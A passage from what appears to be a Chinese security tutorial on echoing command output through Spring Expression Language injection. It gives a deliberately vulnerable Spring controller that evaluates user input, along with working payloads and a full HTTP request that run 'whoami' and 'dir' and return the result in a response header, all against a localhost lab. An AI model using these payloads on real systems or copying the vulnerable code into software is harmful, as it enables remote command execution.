 Scanner
-------

和Buffer一样，都只能算得上是半回显  
`new java.util.Scanner(new java.lang.ProcessBuilder("cmd", "/c", "dir", ".\\").start().getInputStream(), "GBK").useDelimiter("asdasdasdasd").next()`  
这里的`Delimiter`是分隔符的意思，我们执行了dir指令，假如想让回显全部显示在一行。那么我们给一点乱七八糟的东西即可  
![image.png](https://cdn.nlark.com/yuque/0/2023/png/32634994/1691300178932-1b73096f-6edb-405c-a9f8-7bb9e1a154f7.png#averageHue=%232f2f2e&clientId=uc05d2b48-fd3b-4&from=paste&height=621&id=u9c5d85c2&originHeight=776&originWidth=1402&originalType=binary&ratio=1.25&rotation=0&showTitle=false&size=132191&status=done&style=none&taskId=u0aff1dbd-f1db-4984-ab6c-384217fb849&title=&width=1121.6)

ResponseHeader
--------------

这种方法才称得上是通用回显  
这种方法需要有一个方法可以addHeader，可是springboot并不自带这个方法。因此获取到Response有些许困难，需要注册一个response进上下文

```java
@Controller
public class spelcontroller {

    @RequestMapping("/spel")
    @ResponseBody
    public String spelvul(String payload,HttpServletResponse response){
        StandardEvaluationContext context=new StandardEvaluationContext();
        context.setVariable("response",response);
        //String cmdStr = "T(java.lang.ClassLoader).getSystemClassLoader().loadClass('java.lang.Runtime').getRuntime().exec('calc')";
        ExpressionParser parser = new SpelExpressionParser(new SpelParserConfiguration());//创建解析器
        Expression exp = parser.parseExpression(payload);//解析表达式
        return (String) exp.getValue(context);
    }
}

```

```php
POST /spel HTTP/1.1
Host: localhost:8080
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:109.0) Gecko/20100101 Firefox/116.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,*/*;q=0.8
Accept-Language: zh-CN,zh;q=0.8,zh-TW;q=0.7,zh-HK;q=0.5,en-US;q=0.3,en;q=0.2
Accept-Encoding: gzip, deflate
Connection: close
Upgrade-Insecure-Requests: 1
Content-Type: application/x-www-form-urlencoded
Content-Length: 180

payload=#response.addHeader('x-cmd',new java.io.BufferedReader(new java.io.InputStreamReader(new ProcessBuilder("cmd", "/c", "whoami").start().getInputStream(), "gbk")).readLine())
```

![image.png](https://cdn.nlark.com/yuque/0/2023/png/32634994/1691299967394-ab369851-47f7-4079-8985-781f6a552070.png#averageHue=%23675137&clientId=uc05d2b48-fd3b-4&from=paste&height=485&id=u0a130e83&originHeight=606&originWidth=1627&originalType=binary&ratio=1.25&rotation=0&showTitle=false&size=140572&status=done&style=none&taskId=u7097b323-51a2-477e-b6af-c2512ba93a4&title=&width=1301.6)  
这样就可以把命令执行的结果外带出来了。这种方法是比较轻便的。还是围绕着如何获取response这个点。stucts2有util可以直接添加response，所以可以直接外带。

